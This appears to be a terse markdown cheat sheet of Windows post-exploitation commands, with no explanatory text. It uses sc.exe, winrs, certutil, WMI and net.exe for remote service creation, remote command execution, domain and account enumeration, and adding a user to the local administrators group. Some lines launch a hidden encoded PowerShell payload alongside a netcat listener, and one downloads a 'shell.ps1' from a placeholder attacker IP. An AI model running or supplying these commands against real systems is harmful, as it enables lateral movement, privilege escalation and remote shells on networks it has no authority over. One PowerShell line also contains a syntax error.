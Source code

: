 ```powershell
```
## sc.exe
```powershell
PS> sc.exe \\TestHost/HOGE.com create TestService binPath= "%windir%\TestService.exe" start= auto
```
## winrs.exe
```powershell
PS> winrs -r:TargetComputer -u:TestUser -p:TestPassword "cmd /c hostname & whoami"
PS> winrs -r:XXX.XXX.XXX.XXX -u:TestUser -p:TestPassword "cmd /c hostname & whoami"
PS> winrs -r:TargetComputer -u:TestUser -p:TestPassword "powershell -nop -w hidden -e aaaaaaaaaaaaaaaaaaaaaa"
# $ nc -lvp 443
```
## certutil.exe
```powershell
PS> certutil.exe -urlcache -split -f http://XXX.XXX.XXX.XXX:443/shell.ps1
```
## WMI
- https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4  
- https://learn.microsoft.com/en-us/windows/win32/wmisdk/using-wmi
```powershell
PS> wmic qfe get Caption,Description,HotFixID,InstalledOn
PS> wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List
PS> wmic process list /format:list
PS> wmic ntdomain list /format:list
PS> wmic ntdomain get Caption,Description,DnsForestName,DomainName,DomainControllerAddress
PS> wmic useraccount list /format:list
PS> wmic group list /format:list
PS> wmic sysaccount list /format:list
# remote process call
PS> wmic /node:XXX.XXX.XXX.XXX /user:TestUser /password:TestPassword process call create "calc"
# shell
PS> $username = 'TestAdminUser'
PS> $password = 'TestAdminPassword'
PS> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
PS> $options = New-CimSessionOption -DCOM
PS> $session = New-CimSession -ComputerName XXX.XXX.XXX.XXX -Credential $credential -SessionOption $Options
PS> $command = 'calc'
PS> Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine -$Command}
```
## net.exe
```zsh
$ net accounts
$ net accounts /domain
$ net group /domain
$ net group "Domain Admins" /domain
$ net group "Domain Controllers" /domain
$ net group "TestGroup" /domain
$ net groups /domain
$ net localgroup
$ net localgroup administrators /domain
$ net localgroup Administrators
$ net localgroup administrators TestUser /add
$ net share
$ net user TestUser /domain
$ net user /domain TestUser
```